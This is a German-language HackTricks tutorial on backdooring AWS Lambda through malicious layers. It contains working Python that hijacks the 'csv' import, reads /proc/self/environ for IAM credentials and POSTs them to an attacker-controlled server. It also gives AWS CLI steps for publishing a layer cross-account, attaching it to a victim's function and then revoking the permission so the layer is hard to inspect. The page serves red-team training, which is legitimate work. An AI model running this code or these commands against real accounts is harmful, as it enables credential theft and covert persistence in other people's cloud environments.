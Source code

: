 # AWS - Lambda Layers Persistenz

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>
{% endhint %}

## Lambda Layers

Eine Lambda-Schicht ist ein .zip-Dateiarchiv, das **zusätzlichen Code** oder anderen Inhalt enthalten kann. Eine Schicht kann Bibliotheken, eine [benutzerdefinierte Laufzeit](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), Daten oder Konfigurationsdateien enthalten.

Es ist möglich, bis zu **fünf Schichten pro Funktion** einzuschließen. Wenn Sie eine Schicht in eine Funktion einschließen, werden die **Inhalte im Verzeichnis `/opt`** in der Ausführungsumgebung extrahiert.

Standardmäßig sind die **Schichten**, die Sie erstellen, **privat** für Ihr AWS-Konto. Sie können wählen, eine Schicht mit anderen Konten zu **teilen** oder die Schicht **öffentlich** zu **machen**. Wenn Ihre Funktionen eine Schicht verbrauchen, die von einem anderen Konto veröffentlicht wurde, können Ihre Funktionen die Schichtversion weiterhin verwenden, nachdem sie gelöscht wurde oder nachdem Ihre Berechtigung zum Zugriff auf die Schicht widerrufen wurde. Sie können jedoch keine neue Funktion erstellen oder Funktionen mit einer gelöschten Schichtversion aktualisieren.

Funktionen, die als Container-Image bereitgestellt werden, verwenden keine Schichten. Stattdessen packen Sie Ihre bevorzugte Laufzeit, Bibliotheken und andere Abhängigkeiten in das Container-Image ein, wenn Sie das Image erstellen.

### Python-Ladepfad

Der Ladepfad, den Python in Lambda verwenden wird, ist der folgende:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Überprüfen Sie, wie die **zweite** und dritte **Position** von Verzeichnissen belegt sind, in denen **Lambda-Layer** ihre Dateien entpacken: **`/opt/python/lib/python3.9/site-packages`** und **`/opt/python`**

{% hint style="danger" %}
Wenn es einem Angreifer gelingt, einen verwendeten Lambda-**Layer zu infiltrieren** oder einen hinzuzufügen, der **bösartigen Code ausführt, wenn eine gemeinsame Bibliothek geladen wird**, kann er bei jedem Lambda-Aufruf bösartigen Code ausführen.
{% endhint %}

Daher sind die Anforderungen:

* **Überprüfen Sie Bibliotheken**, die vom Code der Opfer **geladen** werden
* Erstellen Sie eine **Proxy-Bibliothek mit Lambda-Layern**, die **benutzerdefinierten Code ausführen** und die **ursprüngliche** Bibliothek **laden** wird.

### Vorab geladene Bibliotheken

{% hint style="warning" %}
Beim Missbrauch dieser Technik stieß ich auf eine Schwierigkeit: Einige Bibliotheken sind im Python-Laufzeitumgebung bereits **geladen**, wenn Ihr Code ausgeführt wird. Ich erwartete, Dinge wie `os` oder `sys` zu finden, aber **sogar die `json`-Bibliothek war geladen**.\
Um diese Persistenztechnik zu missbrauchen, muss der Code eine neue Bibliothek **laden, die nicht geladen ist**, wenn der Code ausgeführt wird.
{% endhint %}

Mit einem Python-Code wie diesem ist es möglich, die **Liste der Bibliotheken abzurufen, die in der Python-Laufzeitumgebung in Lambda vorab geladen sind**:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Und dies ist die **Liste** (überprüfen Sie, ob Bibliotheken wie `os` oder `json` bereits vorhanden sind)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Und dies ist die Liste der **Bibliotheken**, die standardmäßig in **Lambda installiert sind**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In diesem Beispiel nehmen wir an, dass der Zielcode **`csv`** importiert. Wir werden den **Import der `csv`-Bibliothek** **hintertürig gestalten**.

Um das zu tun, werden wir das Verzeichnis csv mit der Datei **`__init__.py`** darin in einem Pfad erstellen, der von Lambda geladen wird: **`/opt/python/lib/python3.9/site-packages`**\
Dann, wenn Lambda ausgeführt wird und versucht, **csv** zu laden, wird unsere **`__init__.py`-Datei geladen und ausgeführt**.\
Diese Datei muss:

- Unser Payload ausführen
- Die originale csv-Bibliothek laden

Wir können beides mit:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Dann erstellen Sie ein Zip mit diesem Code im Pfad **`python/lib/python3.9/site-packages/__init__.py`** und fügen Sie es als Lambda-Layer hinzu.

Sie können diesen Code unter [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) finden.

Das integrierte Payload wird **die IAM-Anmeldeinformationen beim ersten Aufruf oder nach einem Zurücksetzen des Lambda-Containers** (Änderung des Codes oder kaltes Lambda) an einen Server senden, aber **andere Techniken** wie die folgende könnten ebenfalls integriert werden:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Externe Layer

Beachten Sie, dass es möglich ist, **Lambda-Layer von externen Konten** zu verwenden. Darüber hinaus kann eine Lambda-Schicht aus einem externen Konto verwendet werden, auch wenn keine Berechtigungen vorliegen.\
Beachten Sie auch, dass die **maximale Anzahl von Layern, die eine Lambda haben kann, 5 beträgt**.

Daher könnte ein Angreifer zur Verbesserung der Vielseitigkeit dieser Technik:

* Eine vorhandene Schicht des Benutzers infiltrieren (nichts ist extern)
* **Eine Schicht in seinem Konto erstellen**, dem Opferkonto Zugriff geben, um die Schicht zu verwenden, die **Schicht in den Lambda des Opfers konfigurieren** und die Berechtigung **entfernen**.
* Der **Lambda** wird weiterhin in der Lage sein, **die Schicht zu verwenden**, und das **Opfer wird** keine einfache Möglichkeit haben, **den Code der Schicht herunterzuladen** (außer durch Erhalt einer Reverse-Shell innerhalb des Lambdas)
* Das Opfer wird **keine externen Layer** sehen, die mit **`aws lambda list-layers`** verwendet werden.

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>
{% endhint %}

